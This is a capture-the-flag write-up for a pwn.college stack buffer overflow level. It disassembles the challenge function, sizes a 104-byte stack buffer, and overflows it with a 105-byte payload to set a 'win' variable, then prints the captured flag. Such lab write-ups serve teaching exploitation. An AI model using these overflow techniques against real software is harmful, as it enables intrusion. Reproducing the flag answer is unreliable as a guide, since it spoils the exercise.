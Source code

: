 # level1.1
## Description
Overflow a buffer on the stack to set the right conditions to obtain the flag!
## Solution
- Running `./babymem-level-1-1` and giving sample input:
```
###
### Welcome to ./babymem-level-1-1!
###

Payload size: 4
Send your payload (up to 4 bytes)!
AAAA
Goodbye!
### Goodbye!
```
- Running `objdump -d -M intel babymem-level-1-1` and checking out the `challenge` function:
```
000000000000161a <challenge>:
    161a:       f3 0f 1e fa             endbr64
    161e:       55                      push   rbp
    161f:       48 89 e5                mov    rbp,rsp
    1622:       48 81 ec c0 00 00 00    sub    rsp,0xc0
    1629:       89 bd 5c ff ff ff       mov    DWORD PTR [rbp-0xa4],edi
    162f:       48 89 b5 50 ff ff ff    mov    QWORD PTR [rbp-0xb0],rsi
    1636:       48 89 95 48 ff ff ff    mov    QWORD PTR [rbp-0xb8],rdx
    163d:       64 48 8b 04 25 28 00    mov    rax,QWORD PTR fs:0x28
    1644:       00 00 
    1646:       48 89 45 f8             mov    QWORD PTR [rbp-0x8],rax
    164a:       31 c0                   xor    eax,eax
    164c:       48 8d 55 80             lea    rdx,[rbp-0x80]
    1650:       b8 00 00 00 00          mov    eax,0x0
    1655:       b9 0d 00 00 00          mov    ecx,0xd
    165a:       48 89 d7                mov    rdi,rdx
    165d:       f3 48 ab                rep stos QWORD PTR es:[rdi],rax
    1660:       48 89 fa                mov    rdx,rdi
    1663:       89 02                   mov    DWORD PTR [rdx],eax
    1665:       48 83 c2 04             add    rdx,0x4
    1669:       48 8d 45 80             lea    rax,[rbp-0x80]
    166d:       48 89 85 70 ff ff ff    mov    QWORD PTR [rbp-0x90],rax
    1674:       48 8d 45 80             lea    rax,[rbp-0x80]
    1678:       48 83 c0 68             add    rax,0x68
    167c:       48 89 85 78 ff ff ff    mov    QWORD PTR [rbp-0x88],rax
    1683:       48 c7 85 68 ff ff ff    mov    QWORD PTR [rbp-0x98],0x0
    168a:       00 00 00 00 
    168e:       48 8d 3d 77 0a 00 00    lea    rdi,[rip+0xa77]        # 210c <_IO_stdin_used+0x10c>
    1695:       b8 00 00 00 00          mov    eax,0x0
    169a:       e8 c1 fa ff ff          call   1160 <printf@plt>
    169f:       48 8d 85 68 ff ff ff    lea    rax,[rbp-0x98]
    16a6:       48 89 c6                mov    rsi,rax
    16a9:       48 8d 3d 6b 0a 00 00    lea    rdi,[rip+0xa6b]        # 211b <_IO_stdin_used+0x11b>
    16b0:       b8 00 00 00 00          mov    eax,0x0
    16b5:       e8 f6 fa ff ff          call   11b0 <__isoc99_scanf@plt>
    16ba:       48 8b 85 68 ff ff ff    mov    rax,QWORD PTR [rbp-0x98]
    16c1:       48 89 c6                mov    rsi,rax
    16c4:       48 8d 3d 55 0a 00 00    lea    rdi,[rip+0xa55]        # 2120 <_IO_stdin_used+0x120>
    16cb:       b8 00 00 00 00          mov    eax,0x0
    16d0:       e8 8b fa ff ff          call   1160 <printf@plt>
    16d5:       48 8b 95 68 ff ff ff    mov    rdx,QWORD PTR [rbp-0x98]
    16dc:       48 8b 85 70 ff ff ff    mov    rax,QWORD PTR [rbp-0x90]
    16e3:       48 89 c6                mov    rsi,rax
    16e6:       bf 00 00 00 00          mov    edi,0x0
    16eb:       e8 90 fa ff ff          call   1180 <read@plt>
    16f0:       89 85 64 ff ff ff       mov    DWORD PTR [rbp-0x9c],eax
    16f6:       83 bd 64 ff ff ff 00    cmp    DWORD PTR [rbp-0x9c],0x0
    16fd:       79 2c                   jns    172b <challenge+0x111>
    16ff:       e8 1c fa ff ff          call   1120 <__errno_location@plt>
    1704:       8b 00                   mov    eax,DWORD PTR [rax]
    1706:       89 c7                   mov    edi,eax
    1708:       e8 c3 fa ff ff          call   11d0 <strerror@plt>
    170d:       48 89 c6                mov    rsi,rax
    1710:       48 8d 3d 31 0a 00 00    lea    rdi,[rip+0xa31]        # 2148 <_IO_stdin_used+0x148>
    1717:       b8 00 00 00 00          mov    eax,0x0
    171c:       e8 3f fa ff ff          call   1160 <printf@plt>
    1721:       bf 01 00 00 00          mov    edi,0x1
    1726:       e8 95 fa ff ff          call   11c0 <exit@plt>
    172b:       48 8b 85 78 ff ff ff    mov    rax,QWORD PTR [rbp-0x88]
    1732:       8b 00                   mov    eax,DWORD PTR [rax]
    1734:       85 c0                   test   eax,eax
    1736:       74 0a                   je     1742 <challenge+0x128>
    1738:       b8 00 00 00 00          mov    eax,0x0
    173d:       e8 d1 fd ff ff          call   1513 <win>
    1742:       48 8d 3d 23 0a 00 00    lea    rdi,[rip+0xa23]        # 216c <_IO_stdin_used+0x16c>
    1749:       e8 e2 f9 ff ff          call   1130 <puts@plt>
    174e:       b8 00 00 00 00          mov    eax,0x0
    1753:       48 8b 4d f8             mov    rcx,QWORD PTR [rbp-0x8]
    1757:       64 48 33 0c 25 28 00    xor    rcx,QWORD PTR fs:0x28
    175e:       00 00 
    1760:       74 05                   je     1767 <challenge+0x14d>
    1762:       e8 e9 f9 ff ff          call   1150 <__stack_chk_fail@plt>
    1767:       c9                      leave
    1768:       c3                      ret
```
- The `challenge` function reads a string from the user and stores it in the stack buffer at `[rbp-0x80]` with a size of `0xd` bytes. We know this from these lines:
```
    164c:       48 8d 55 80             lea    rdx,[rbp-0x80]
    1650:       b8 00 00 00 00          mov    eax,0x0
    1655:       b9 0d 00 00 00          mov    ecx,0xd
    165a:       48 89 d7                mov    rdi,rdx
    165d:       f3 48 ab                rep stos QWORD PTR es:[rdi],rax
```
- The `ecx` register is set to `0xd` (13). `ecx` is used as a counter for the `rep stos` instruction.
- `rep` repeats the `stos` instruction `ecx` times. 
- `stos` stands for "Store String". It stores the value in `rax` in the memory location pointed to by `rdi` and increments the value of `rdi` by the size of the operand.
- `QWORD` is a 64-bit (8 bytes) operand. So, `rep stos QWORD PTR es:[rdi],rax` will store the value in `rax` (which is 0) in the memory locations pointed to by `rdi` for `0xd` times.
- So 13 * 8 = 104 bytes will be initialized with 0 starting from `[rbp-0x80]`. This means that the buffer is 104 bytes long.
- From [level1.0](./level1.0.md), we know that the `win` variable is immediately after the buffer. Since the buffer is 104 bytes long, if we craft our payload to be 105 bytes long, we can overwrite the `win` variable with a non-zero value:
```
./babymem-level-1-1 
###
### Welcome to ./babymem-level-1-1!
###

Payload size: 105
Send your payload (up to 105 bytes)!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You win! Here is your flag:
pwn.college{Mk8McHgG5Rab_29pRkhzlcL5ZFN.0FM5IDL5QTO0czW}


Goodbye!
### Goodbye!
```
- The flag is `pwn.college{Mk8McHgG5Rab_29pRkhzlcL5ZFN.0FM5IDL5QTO0czW}`.